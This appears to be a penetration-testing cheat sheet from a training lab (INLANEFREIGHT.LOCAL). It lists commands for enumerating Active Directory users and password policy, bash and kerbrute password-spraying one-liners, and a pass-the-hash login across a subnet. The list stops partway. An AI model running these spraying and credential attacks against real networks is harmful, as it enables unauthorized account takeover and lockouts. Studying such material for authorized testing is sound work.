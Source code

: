 Uses `ldapsearch` to enumerate the password policy in a target Windows domain from a Linux-based host.

`ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength`

Uses the Import-Module cmd-let to import the `PowerView.ps1` tool from a Windows-based host.

`Import-Module .\PowerView.ps1`

Uses rpcclient to discover user accounts in a target Windows domain from a Linux-based host.

`rpcclient -U "" -N 172.16.5.5`
`rpcclient $> enumdomuser`

Uses `CrackMapExec` to discover users (`--users`) in a target Windows domain from a Linux-based host.

`crackmapexec smb 172.16.5.5 --users`

Uses `ldapsearch` to discover users in a target Windows doman, then filters the output using `grep` to show only the `sAMAccountName` from a Linux-based host.

`ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d" "`

Uses the python tool `windapsearch.py` to discover users in a target Windows domain from a Linux-based host.

`./windapsearch.py --dc-ip 172.16.5.5 -u "" -U`

Bash one-liner used to perform a password spraying attack using `rpcclient` and a list of users (`valid_users.txt`) from a Linux-based host. It also filters out failed attempts to make the output cleaner.

`for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done`

Uses `kerbrute` and a list of users (`valid_users.txt`) to perform a password spraying attack against a target Windows domain from a Linux-based host.

`kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1`

Uses `CrackMapExec` and a list of users (`valid_users.txt`) to perform a password spraying attack against a target Windows domain from a Linux-based host. It also filters out logon failures using `grep`.

`sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +`

Uses `CrackMapExec` to validate a set of credentials from a Linux-based host.

`sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123`

Uses `CrackMapExec` and the -`-local-auth` flag to ensure only one login attempt is performed from a Linux-based host. This is to ensure accounts are not locked out by enforced password policies. It also filters out logon failures using `grep`.

`sudo crackmapexec smb --local-auth 172.16.5.0/24 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +`

Used to import the PowerShell-based tool `DomainPasswordSpray.ps1` from a Windows-based host.
